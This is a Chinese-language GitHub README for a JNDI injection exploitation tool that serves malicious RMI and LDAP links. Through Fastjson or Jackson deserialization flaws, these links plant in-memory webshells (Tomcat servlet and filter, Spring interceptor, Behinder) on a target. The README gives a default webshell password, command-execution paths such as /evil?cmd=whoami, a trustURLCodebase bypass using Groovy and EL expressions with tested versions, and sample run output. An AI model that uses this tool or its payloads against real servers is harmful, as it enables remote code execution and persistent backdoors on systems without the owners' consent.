 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links----------------------------
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/hcs9gf
ldap://127.0.0.1:1389/hcs9gf
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/047ucq
ldap://127.0.0.1:1389/047ucq
Target environment(Build in JDK bypass trustURLCodebase is false by Groovy):
rmi://127.0.0.1:1099/gfklse
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/gupdzc
ldap://127.0.0.1:1389/gupdzc
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/n5tnhz
ldap://127.0.0.1:1389/n5tnhz
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/fbnegt
ldap://127.0.0.1:1389/fbnegt
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/mpqyi4
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/kmfzhn
ldap://127.0.0.1:1389/kmfzhn
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/vlnzlt
ldap://127.0.0.1:1389/vlnzlt
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/21jrzn
ldap://127.0.0.1:1389/21jrzn

----------------------------Server Log----------------------------
2023-09-01 15:28:37 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-01 15:28:37 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-01 15:28:37 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
  
- Bypass JDK高版本trustURLCodebase,by Groovy的方式

  - 前提条件，Tomcat版本小于9.0.63,并且存在Groovy依赖在classpath中
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。



- 实测了一下通过EL表达式来bypassJDK的JNDI注入的`trustURLCodebase`的限制的方法测试版本

| JDK版本  | Springboot版本 | 内置的Tomcat版本     | 能否执行命令 |
| -------- | -------------- | -------------------- | ------------ |
| JDK8u191 | 2.5.13         | Apache Tomcat/9.0.62 | ✅            |
| JDK8u191 | 2.5.14         | Apache Tomcat/9.0.63 | ❌            |



## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- ~~融合groovy的bypass RCE到项目中。~~
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马


喜欢的朋友可以帮忙点一个Star。 :）

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)

